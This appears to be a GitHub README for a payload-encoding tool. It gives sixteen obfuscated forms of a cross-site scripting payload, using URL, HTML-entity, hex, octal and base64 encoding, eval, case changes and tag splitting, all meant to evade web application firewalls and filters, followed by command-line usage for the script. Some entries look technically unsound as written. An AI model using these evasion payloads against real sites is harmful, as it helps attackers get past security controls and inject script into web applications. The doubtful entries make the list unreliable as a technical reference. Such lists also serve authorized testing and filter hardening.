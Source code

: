 # PayloadEncoder
Payload Encoder
When trying to bypass Web Application Firewalls (WAFs) or filters, encoding and obfuscation techniques can help evade basic detection. Below are various methods to encode or obfuscate the payload 

For Example: "<script>alert(1)</script>":
1. URL Encoding

    Full URL encoding:
    
```
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E
```
Partial URL encoding (only encode specific characters):



    %3Cscript%3Ealert%281%29%3C/script%3E

2. HTML Entity Encoding

    Using HTML entities for all characters:


```
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;
```
Mixed HTML entities:



    &#x3C;script&#x3E;alert(&#49;)&#x3C;/script&#x3E;

3. Hexadecimal Encoding

    Using hexadecimal escape sequences:


```
    \x3Cscript\x3Ealert\x281\x29\x3C/script\x3E
```
4. Base64 Encoding

    Encoding the entire payload:


```
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
Decoding in an HTML context:



    <script>eval(atob('YWxlcnQoMSk='))</script>

5. Double URL Encoding

    Encoding the URL-encoded version again:


```
    %253Cscript%253Ealert%25281%2529%253C%252Fscript%253E
```
6. Hexadecimal Representation of Characters

    Using hex representation:


```
    \u003Cscript\u003Ealert(1)\u003C\u002Fscript\u003E
```
7. Octal Encoding

    Using octal representation:


```
    \074script\076alert(1)\074\057script\076
```
8. JavaScript Escape Sequences

    Escaping characters within JavaScript:


```
    <script>\x61\x6c\x65\x72\x74\x28\x31\x29</script>
```
9. Mixed Encoding

    Combining different encoding methods:


```
    &#x3C;&#x73;&#99;r&#105;p&#x74;&#x3E;&#97;&#x6C;&#x65;&#x72;&#116;&#x28;&#49;&#x29;&#x3C;&#x2F;&#115;&#x63;&#x72;&#105;&#112;&#116;&#x3E;
```
10. Non-Printable Characters

    Injecting non-printable characters:


```
    <scri%00pt>alert(1)</scri%00pt>
```
11. Breaking Up the Script Tag

    Fragmenting the <script> tag:


```
    <scr"+"ipt>alert(1)</scr"+"ipt>
```
12. Using Backticks

    Using backticks in place of single or double quotes:


```
    <script>alert(`1`)</script>
```
13. Expression and Eval

    Using eval or expression in inline JavaScript:


```
    <img src=x onerror="eval('alert(1)')">
```
14. Lowercase and Uppercase

    Altering case:


```
    <sCriPt>alert(1)</sCriPt>
```
15. Polyglot Payload

    Crafting a payload that can be interpreted differently depending on the context:


```
    <scri<script>pt>alert(1)</scri</script>pt>
```
16. Inline Comments

    Adding inline comments to break up the script:


```
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```

# Usage

Single Payload Encoding:

bash
```
python encode_payloads.py -p "<script>alert(1)</script>" [-o output.txt]
```
Encodes a single payload. If -o is provided, it saves the result to output.txt. Otherwise, it prints the encoded payloads to the console.

Multiple Payloads from a File:

bash
```
python encode_payloads.py -l input_payloads.txt [-o output.txt]
```


Input Parameters:

    Use -p or --payload for a single payload.
    Use -l or --list for encoding payloads from a file.
    Use -o or --output to specify an output file (optional).
